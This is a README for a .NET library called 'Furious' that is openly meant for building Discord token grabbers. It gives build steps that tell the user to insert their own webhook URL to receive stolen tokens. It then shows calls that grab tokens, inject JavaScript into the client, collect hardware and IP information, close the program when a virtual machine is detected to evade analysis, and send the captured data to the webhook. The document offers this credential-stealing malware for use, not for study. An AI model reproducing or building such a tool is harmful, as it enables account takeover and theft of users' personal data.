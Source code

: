 # Discord-Token-Grabber-Library
A .NET library developed to create Discord token and other information grabbers with ease.

# Build
#### - Built using Visual Studio 2019 Community
1. Open project
2. Change all instances of "webhook-here" to your webhook URL
3. Build Solution
4. ???
5. Profit

# Usage
Replace all occurances of "webhook-here" to your own server's webhook URL, this is the webhook which will be displaying the captured tokens.

Build the DLL and reference it in your project(s): ```using Furious;```

#### To grab tokens call
```Furious.Grabber.QuickStart(true);```
#### To collect hardware information
```Furious.Grabber.QuickStart(injectJS, getUserHardware: true);```
#### To check for a virtual machine
```Furious.Grabber.QuickStart(injectJS, getUserHardware, checkForVM: true);``` - if a VM is detected, the application will close instantly.
#### To send data (hardware, ip etc.) to webhook
```Furious.Grabber.SendData(await Grabber.GetHardware());```
# Requests
I do not know JS, I got it to work with luck, for those that do, the JS in the text files may look extremely messy. If you're able to optimise/clean-up the code I would greatly appreciate it.
